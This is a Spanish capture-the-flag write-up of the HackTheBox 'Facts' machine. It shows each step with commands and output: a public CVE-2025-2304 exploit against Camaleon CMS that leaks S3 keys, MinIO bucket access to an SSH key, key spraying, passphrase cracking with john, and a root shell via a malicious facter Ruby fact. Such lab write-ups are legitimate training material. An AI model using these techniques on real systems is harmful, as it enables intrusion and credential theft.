


+++
title = "HackTheBox - Facts"
draft = false
description = "Resolución de la máquina Facts"
tags = ["HTB", "Linux", "MinIO", "CamaleonCMS", "CVE", "SSH Key", "Custom Binary"]
summary = "OS: Linux | Dificultad: Easy | Conceptos: MinIO, S3, CamaleonCMS, CVE Público, Binario Custom"
categories = ["Writeups"]
showToc = true
showRelated = true
date = "2026-02-12T00:00:00"
+++

* Dificultad: `easy`
* Tiempo aprox. `~2.5h`
* **Datos Iniciales**: `10.129.1.12`

### Nmap Scan

Tras realizar un escaneo nmap completo, se encuentran los siguientes puertos abiertos:

```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 9.9p1 Ubuntu 3ubuntu3.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4d:d7:b2:8c:d4:df:57:9c:a4:2f:df:c6:e3:01:29:89 (ECDSA)
|_  256 a3:ad:6b:2f:4a:bf:6f:48:ac:81:b9:45:3f:de:fb:87 (ED25519)
80/tcp    open  http    nginx 1.26.3 (Ubuntu)
|_http-server-header: nginx/1.26.3 (Ubuntu)
|_http-title: Did not follow redirect to http://facts.htb/
54321/tcp open  http    Golang net/http server
|_http-title: Did not follow redirect to http://10.129.1.12:9001
...
```
> Añadimos `facts.htb` a `/etc/hosts`

- TCP/22: SSH, versión no vulnerable.
- TCP/80: HTTP, el potencial vector de entrada
- TCP/54321: Servidor golang? Redirige a `10.129.1.12:9001`

## Puerto 54321
Antes de entrar al servidor web del puerto 80, probamos a ver qué hay en el 54321.

Si nos fijamos en el análisis de nmap, veremos lo siguiente:
```bash
...
54321/tcp open  http    Golang net/http server
|_http-title: Did not follow redirect to http://10.129.1.12:9001
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Accept-Ranges: bytes
|     Content-Length: 303
|     Content-Type: application/xml
|     Server: MinIO
|     Strict-Transport-Security: max-age=31536000; includeSubDomains
|     Vary: Origin
|     X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
|     X-Amz-Request-Id: 189348DC6AE9369B
|     X-Content-Type-Options: nosniff
|     X-Xss-Protection: 1; mode=block
|     Date: Wed, 11 Feb 2026 19:46:30 GMT
|     <?xml version="1.0" encoding="UTF-8"?>
|     <Error><Code>InvalidRequest</Code><Message>Invalid Request (invalid argument)</Message><Resource>/nice ports,/Trinity.txt.bak</Resource><RequestId>189348DC6AE9369B</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>
|   GenericLines, Help, RTSPRequest, SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 400 Bad Request
|     Accept-Ranges: bytes
|     Content-Length: 276
|     Content-Type: application/xml
|     Server: MinIO
|     Strict-Transport-Security: max-age=31536000; includeSubDomains
|     Vary: Origin
|     X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
|     X-Amz-Request-Id: 189348D8CA984E90
|     X-Content-Type-Options: nosniff
|     X-Xss-Protection: 1; mode=block
|     Date: Wed, 11 Feb 2026 19:46:14 GMT
|     <?xml version="1.0" encoding="UTF-8"?>
|     <Error><Code>InvalidRequest</Code><Message>Invalid Request (invalid argument)</Message><Resource>/</Resource><RequestId>189348D8CA984E90</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Vary: Origin
|     Date: Wed, 11 Feb 2026 19:46:14 GMT
|_    Content-Length: 0
|_http-server-header: MinIO
...
```

De aquí podemos sacar la siguiente información:
- Servidor `MinIO`. En su momento no sabía qué era
- Headers HTTP "Amz", posiblemente relacionado con Amazon?
- Respuesta del server al test de nmap: `InvalidRequest`, posiblemente necesite otro tipo o sintaxis de solicitud.

Tras una búsqueda, encuentro info relevante sobre MinIO, S3 y los buckets:

> [!NOTE]+ Qué es S3?
> *S3 (Simple Storage Service) es un sistema de almacenamiento de objetos pensado para guardar datos no estructurados (imágenes, backups, logs, etc.) de forma duradera, segura y altamente disponible. La API de S3 permite gestionar buckets, objetos, ACLs, metadatos, etc.* 

> [!NOTE]+ Qué es un Bucket?
> *Un bucket es un "directorio" de alto nivel, el contenedor raíz donde se almacenan los objetos. Un objeto en S3 es un archivo más sus metadatos. En un bucket NO hay subdirectorios, tiene una estructura plana, las rutas en las que están los objetos forman parte de la propia clave que define al objeto. "2026/enero/database.db.bak" es en sí el nombre (clave) del archivo "2026/enero/database.db.bak", no hay un directorio "2026" ni otro "enero" dentro de este.*

> [!NOTE]+ Cómo se relaciona MinIO con todo esto?
> *Dado que la API S3 de AWS se lanzó tempranamente (2006) y es muy simple y escalable, la industria la ha adoptado como estándar de facto, p.ej en Google Cloud, Azure, y en software open source como **MinIO**.*

> [!NOTE]+ Y qué es MinIO?
> *Finalmente, MinIO es un servidor de almacenamiento de objetos open-source compatible con la API de S3. La principal diferencia es que AWS S3 es gestionado por Amazon en una nube pública, mientras que MinIO puede instalarse en servidores privados como servicio, aunque funciona de forma idéntica.*

De momento, como más allá de la teoría no sé enumerar buckets S3, paso al puerto 80.

## Puerto 80, nginx
Al entrar, nos encontramos un blog en el que el administrador sube datos curiosos:



Planteo varias opciones:
- SQLi en campo de búsqueda -> No vulnerable
- XSS en campo de búsqueda -> No vulnerable
- XSS en comentarios -> No se pueden comentar posts

Así que decido hacer fuzzing de directorios:
```bash
gobuster dir -u http://facts.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://facts.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index                (Status: 200) [Size: 11113]
search               (Status: 200) [Size: 19187]
rss                  (Status: 200) [Size: 183]
sitemap              (Status: 200) [Size: 3508]
en                   (Status: 200) [Size: 11109]
page                 (Status: 200) [Size: 19593]
welcome              (Status: 200) [Size: 11966]
admin                (Status: 302) [Size: 0] [--> http://facts.htb/admin/login]
post                 (Status: 200) [Size: 11308]
ajax                 (Status: 200) [Size: 0]
up                   (Status: 200) [Size: 73]
-                    (Status: 200) [Size: 11098]
404                  (Status: 200) [Size: 4836]
robots               (Status: 200) [Size: 33]
400                  (Status: 200) [Size: 6685]
error                (Status: 500) [Size: 7918]
500                  (Status: 200) [Size: 7918]
422                  (Status: 200) [Size: 8380]
captcha              (Status: 200) [Size: 1552]
```

De aquí destacan varias cosas:
- `sitemap`: posible mapa del contenido del servidor. Al final no hay muchas cosas relevantes
- `robots`: robots.txt, solo apuntaba a `sitemap`
- `admin`, que redirige a `admin/login`, entramos a ver.

En `http://facts.htb/admin/login` vemos lo siguiente:



Aprovechando que podemos crear una cuenta, la creamos. Desde el panel de admin vemos que se está usando `Camaleon CMS v2.9.0`. Tras una búsqueda rápida encontramos que esta versión es vulnerable a [`CVE-2025-2304`](https://www.incibe.es/index.php/incibe-cert/alerta-temprana/vulnerabilidades/cve-2025-2304).

Este CVE tiene varios PoC públicos, [uno de ellos](https://github.com/Alien0ne/CVE-2025-2304) listando que además puede conseguir un S3 Config Leak, relacionado directamente con el server MinIO visto antes.

> [!tip]+ Visión general
> Podemos deducir que, dado que CamaleonCMS es (casualmente) un CMS (que sirve contenido), es muy probable que los archivos e imágenes que sirve o los datos del backend (usuarios, contraseñas, etc.) estén almacenados en el servidor MinIO.

Haciendo uso del PoC:
```bash
python exploit.py -u http://facts.htb -U username -P password -e
#El usuario y contraseña creados en el panel de admin antes son literalmente "username" y "password" (para intentar no olvidarme de ellos).

[+]Camaleon CMS Version 2.9.0 PRIVILEGE ESCALATION (Authenticated)
[+]Login confirmed
   User ID: 5
   Current User Role: client
[+]Loading PPRIVILEGE ESCALATION
   User ID: 5
   Updated User Role: admin
[+]Extracting S3 Credentials
   s3 access key: AKIAFC0D81519CD08F22
   s3 secret key: Q/HzwX6w1DKpmgoLiyi9R9munNEkoW8KfRxpy/Fc
   s3 endpoint: http://localhost:54321
[+]Reverting User Role
```

## Puerto 54321, MinIO
Ahora que tenemos las claves, podemos usar la herramienta de cli `aws` y conectarnos al server MinIO. Primero creamos un perfil que almacena las credenciales y configuraciones:

```bash
$ aws configure --profile facts

AWS Access Key ID [None]: AKIAFC0D81519CD08F22
AWS Secret Access Key [None]: Q/HzwX6w1DKpmgoLiyi9R9munNEkoW8KfRxpy/Fc
Default region name [None]: us-east-1
Default output format [None]: json
```

> La herramienta `aws` convierte los parámetros que se le pasan por la terminal en una solicitud HTTP con el formato del API S3. `aws` normalmente se usaría con servidores de AWS reales, pero como la API S3 funciona con MinIO también, podemos usar la herramienta indistintamente en ambos.

Ahora, usando el perfil, listamos buckets:
```bash
$ aws --endpoint-url http://facts.htb:54321 s3 ls --profile facts

2025-09-11 08:06:52 internal
2025-09-11 08:06:52 randomfacts
```

Aunque es bastante probable que lo interesante esté en el bucket `internal`, vamos primero a `randomfacts` por si hay algo:

```bash
$ aws --endpoint-url http://facts.htb:54321 s3 ls s3://randomfacts --profile facts
                           PRE thumb/
2025-09-11 08:07:06     446847 animalejected.png
...[SNIP]...
2025-09-11 08:07:02     341284 smallanimals.png
2025-09-11 08:07:02     332397 superiorpeople.png
2025-09-11 08:07:01      39579 vanilla.png
2025-09-11 08:07:01      35769 youtubewatchhours.png

$ aws --endpoint-url http://facts.htb:54321 s3 ls s3://randomfacts/thumb/ --profile facts
2025-09-11 08:07:06      18784 animalejected-png.png
...
```
Como imaginábamos, no hay nada relevante, vamos a `internal`:
```bash
$aws --endpoint-url http://facts.htb:54321 s3 ls s3://internal --profile facts 
                           PRE .bundle/
                           PRE .cache/
                           PRE .ssh/
2026-01-08 13:45:13        220 .bash_logout
2026-01-08 13:45:13       3900 .bashrc
2026-01-08 13:47:17         20 .lesshst
2026-01-08 13:47:17        807 .profile
```

Tras ordenar todo un poco, tenemos los siguientes archivos disponibles:

```bash
$ aws --endpoint-url http://facts.htb:54321 s3 ls s3://internal --profile facts --recursive > lista.txt

$ grep -v ".bundle" lista.txt      
2026-01-08 13:45:13        220 .bash_logout
2026-01-08 13:45:13       3900 .bashrc
2026-01-08 14:01:43          0 .cache/motd.legal-displayed
2026-01-08 13:47:17         20 .lesshst
2026-01-08 13:47:17        807 .profile
2026-02-11 14:05:41         82 .ssh/authorized_keys
2026-02-11 14:05:41        464 .ssh/id_ed25519
```

Y estamos a nada de poder entrar, tenemos una clave privada de SSH: `id_ed25519`. La descargamos:
```bash
$ aws --endpoint-url http://facts.htb:54321 s3 cp s3://internal/.ssh/id_ed25519 ./sshPriv_Facts --profile facts

download: s3://internal/.ssh/id_ed25519 to ./sshPriv_Facts
```

## Clave Privada SSH
Tenemos la clave privada, solo necesitamos saber el nombre de usuario. Puede estar en muchos sitios, así que vamos enumerando el bucket.

Tras un rato mirando, veo que no hay comentarios en las claves ni en `authorized_keys`, que no hay una ruta (p.ej `/home/...`) especificada en el `.bashrc` y que no hay nada que contenga `home`, `user`, `passwd` o `config` útil en el bucket. 

Dedido usar [crowbar](https://github.com/galkan/crowbar) para hacer "sshkey-spraying" contra una serie de usuarios.

```bash
$ cat wordlist     
facts
ubuntu
camaleon
camaleoncms
user
admin
root
web
www-data
carol
bob
dave

$ crowbar -b sshkey -k sshPriv_Facts -U wordlist -s 10.129.1.12/32
2026-02-11 18:36:28 START
2026-02-11 18:36:28 Crowbar v0.4.2
2026-02-11 18:36:28 Trying 10.129.1.12:22
2026-02-11 18:36:28 STOP
2026-02-11 18:36:28 No results found...
```

Tras un rato probando con más wordlists, empiezo a plantearme si verdaderamente la clave privada que tengo corresponde a la pública que aparece en `authorized_keys`, así que intento sacar la pública a partir de la privada:
```bash
$ ssh-keygen -y -f sshPriv_Facts
Enter passphrase for "sshPriv_Facts": 
```
Necesitamos contraseña, probamos a ver si coinciden el fingerprint de la clave privada y el de la de `authorized_keys`:
```bash
$ ssh ubuntu@facts.htb -i sshPriv_Facts -v
...[SNIP]...
debug1: Will attempt key: sshPriv_Facts ED25519 SHA256:CaxvNjIzBMaUcRQXvN3uZimyPin18byKHSQFrAVQ5Kw explicit
debug1: Offering public key: sshPriv_Facts ED25519 SHA256:CaxvNjIzBMaUcRQXvN3uZimyPin18byKHSQFrAVQ5Kw explicit
debug1: Authentications that can continue: publickey,password
debug1: Next authentication method: password
ubuntu@facts.htb's password: 
```
El de la privada es `CaxvNj...[SNIP]...VQ5Kw`

```bash
$ ssh-keygen -l -f authorized_keys
256 SHA256:CaxvNjIzBMaUcRQXvN3uZimyPin18byKHSQFrAVQ5Kw no comment (ED25519)
```
El de la pública es `CaxvNj...[SNIP]...VQ5Kw`, así que sí, la clave privada **tiene que funcionar para algún usuario** (si el authorized_keys está en uso en algún sitio realmente).

### Crackeando contraseña
Al haber confirmado que al menos la clave privada nos va a ser útil y corresponde a la pública de `authorized_keys`, probamos a conseguir la contraseña que la cifraba (porque igual se reutiliza en algún sitio).

```bash
$ ssh2john sshPriv_Facts > ssh.hash

$ john ssh.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 24 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
dragonballz      (sshPriv_Facts)     
1g 0:00:00:49 DONE (2026-02-11 18:41) 0.02010g/s 64.33p/s 64.33c/s 64.33C/s billy1..imissu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Una vez tenemos la contraseña `dragonballz`:
```bash
ssh-keygen -y -f sshPriv_Facts
Enter passphrase for "sshPriv_Facts": 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOGS0kGbiJNi57+7OhndU9LB6qQpwG2vQx/Rgn7/ktf8 trivia@facts.htb
```
Tenemos el usuario: `trivia`.

### Conexión inicial por SSH
Nos conectamos por ssh:
```bash
ssh trivia@facts.htb -i sshPriv_Facts 
Enter passphrase for key 'sshPriv_Facts':
Last login: Wed Jan 28 16:17:19 UTC 2026 from 10.10.14.4 on ssh
Welcome to Ubuntu 25.04 (GNU/Linux 6.14.0-37-generic x86_64)
 
trivia@facts:~$ 
```

## PrivEsc
Inmediatamente al entrar comprobamos permisos sudo:
```bash
$ sudo -l
Matching Defaults entries for trivia on facts:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User trivia may run the following commands on facts:
    (ALL) NOPASSWD: /usr/bin/facter
```

Tras mirar, resulta que `facter` es un programa que permite recolectar y ver datos del sistema. Al mirar el manpage veo varias opciones curiosas como `--debug`, y todo me apunta a que hay que hacer que `facter` "escupa" todo a pantalla para que se abra el paginador (p.ej `less`) y desde ahí podamos abrir un shell (como en [Devvortex](writeups/devvortex)), pero, desgraciadamente, no es el caso.

De todas formas, podemos crear un archivo `.rb` que engañe a `facter` haciéndole creer que es una función para calcular un dato nuevo, cuando en realidad es un shell:
```bash
trivia@facts:/tmp/exploit$ echo "Facter.add(:shell) do setcode do system('/bin/bash') end end" > /tmp/exploit/shell.rb
trivia@facts:/tmp/exploit$ sudo /usr/bin/facter --custom-dir=/tmp/exploit
root@facts:/tmp/exploit# 
```
Y somos root.
